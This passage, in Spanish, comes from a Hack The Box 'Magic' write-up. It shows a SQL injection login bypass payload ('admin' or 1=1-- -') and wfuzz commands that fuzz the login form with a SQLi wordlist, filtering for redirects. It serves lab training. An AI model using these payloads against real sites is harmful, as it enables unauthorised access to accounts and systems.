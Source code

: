 **Username:** admin' or 1=1-- -      
**Password:** admin' or 1=1-- -      

![](https://lh4.googleusercontent.com/Tda_ppmgHprDqarVsbGdt_ilCywAUUHrPlPEvWCbm62EcTFcgzz_RFgoQ_va0yynYCMW7vkSdVJQyRty-ixbvPyN6FETwURDJuDOIY2xxYMsl1wt8GFiqtBlI5AydBlFfGhWa4-k)

**¡¡Eureka!!**

## Ataque de fuerza bruta con wfuzz.


Pero que aburrido, vamos hacerlo mas divertido, les enseñare dos formas.

La primera de ellas sera utilizando la herramienta wfuzz y el diccionario `Generic-SQLi.txt` del repositorio de seclists.

Para lograr nuestro objetivo necesitamos saber como es que se tramita la data para ello nos vamos a login nuevamente y hacemos click derecho **->** inspeccionar **->** network.
![](https://lh5.googleusercontent.com/-iygesFG2IUYZa_IarBUfi2k5H3er1Ijz2kF6fhNrecqI8TZjTwfjUc2H7SiJYa0igSMYALtgsB9cikMFxSrvIkVZi1Hzrla4vRfkFIIk5cZYesWZlGiFwUrAmkvM4grHDiemyeU)
Ahora vamos a enviar cualquier data, en este caso `admin:admin`.

![](https://lh4.googleusercontent.com/oFTETRuiPdmW-Dk4iWbM0-DlCJVXOfg3gKni5sJLF_oQvTsWT3qDZ8Ar9TwS_swle2vPkI_yEmRNvjSJWXMmrlXNJQ-9RI_dP0ifWbWCOVnpi8k3OtREiEzr73BRgm-htYIGYKeR)

En el apartado de **Name** seleccionamos `login.php` y nos vamos a la pestaña de  **Headers** donde encontraremos el método que se utiliza para enviar la data al servidor en este caso se utiliza el método POST.

![](https://lh6.googleusercontent.com/PHLd97aqFkRb666XE9GpTAAceccZTJnNl02VruooStg8PoZLjvvIV_7apfiwKuJSmiz2_4PKvg_a7R3hJ8w7a_4VdVU_6lcPxplSyayaoccY4D-1qZWcEDw7C6wpR4tdS7jRhoRV)

Si seguimos bajando encontraremos la estructura de como se envía la data.

![](https://lh3.googleusercontent.com/C7kOwnRlRI1JKTwFg4jyDuqhEl0C1ryNoweCtRVZ5kXUSzRBFoXst2DPo-JmnTCqs_ZPWd9T4qXOjRKUx502oCcZtBmC0AvoqZ9anoeTDAeNJrFPdljV_s4zoc9wgUDrRGVBlLsG)

Seleccionamos **View Source** y  veremos mas claramente la estructura.

![](https://lh5.googleusercontent.com/P00evERj6FyWq1V51cQQ8dnXnjde2eEWv1K6advfRG297IkezRtlD-i4cBZGX6F9LwQD79GbaL1NdlgIu63rgASQQUBql1Lw9JO3Fs-VTidEO8vJFz0uuQ3382sbug2GDISA4TDY)

**Data:** `username=admin&password=admin`

Ahora tenemos todo lo necesario para poder llevar a cabo el ataque.

Abro una terminal y ejecuto el siguiente comando:

```console
intrusionz3r0@Kali:~$ wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -d "username=FUZZ&password=FUZZ" http://magic.htb/login.php
```
![](https://lh6.googleusercontent.com/gDXCmmQzIZ-HRJfZ87jHm6VHkmzifhsR-LTyu34xxblkEPjlB71mdOP4Ai7V9KN2_EVwxJCv3Xn3q4TKnCaCfUkd0Ey8FONH98xThWna9TF4HydiiawSkbCSvkvde_-fKCzHyG7e)
Si eres muy observativo te darás cuenta de que en algunos casos obtenemos un código de respuesta `302` lo que se traduce como una redirección.

Lo que haré ahora será filtrar solo por el código de estado `302`.

```console
intrusionz3r0@Kali:~$ wfuzz -c --sc 302 -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -d "username=FUZZ&password=FUZZ" http://magic.htb/login.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://magic.htb/login.php
Total requests: 267

===================================================================
```